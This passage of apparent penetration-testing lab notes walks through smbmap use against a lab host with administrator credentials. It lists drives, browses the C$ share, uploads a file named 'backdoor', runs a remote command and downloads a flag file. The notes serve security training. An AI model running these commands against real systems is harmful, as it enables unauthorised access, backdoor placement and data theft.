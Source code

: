 `-L` - List all drives on the specified host, requires ADMIN rights. Example:

```sh
root@attackdefense:~# smbmap -u administrator -p "smbserver_771" -H 10.5.20.115 -L           
[+] Host 10.5.20.115 Local Drives: C:\ D:\
[+] Host 10.5.20.115 Net Drive(s):
	No mapped network drives
```

In this case, no mapped network drives were found.

We can connect a drive, such as C drive, by using the following command:

```sh
root@attackdefense:~# smbmap -u administrator -p "smbserver_771" -H 10.5.20.115 -r 'C$'
[+] IP: 10.5.20.115:445	Name: 10.5.20.115                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Wed Dec 27 20:31:32 2023	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Wed Dec 27 20:53:23 2023	Windows
```

We can also upload a backdoor from our system to the target system:

```sh
root@attackdefense:~# smbmap -u administrator -p "smbserver_771" -H 10.5.20.115 --upload '/root/backdoor' 'C$\backdoor'
[+] Starting upload: /root/backdoor (0 bytes)
[+] Upload complete
```

We can read the file like this:

```sh
root@attackdefense:~# smbmap -u administrator -p "smbserver_771" -H 10.5.20.115 -r 'C$' -x 'type flag.txt'
```

We can also download the file like this:

```sh
root@attackdefense:~# smbmap -u administrator -p "smbserver_771" -H 10.5.20.115 --download 'C$\flag.txt'      
[+] Starting download: C$\flag.txt (32 bytes)
[+] File output to: /root/10.5.20.115-C_flag.txt
```


[^2]: login username
[^3]: Password List
[^4]: Target Host
[^5]: Protocol
[^6]: ensures that we are lookinbg for users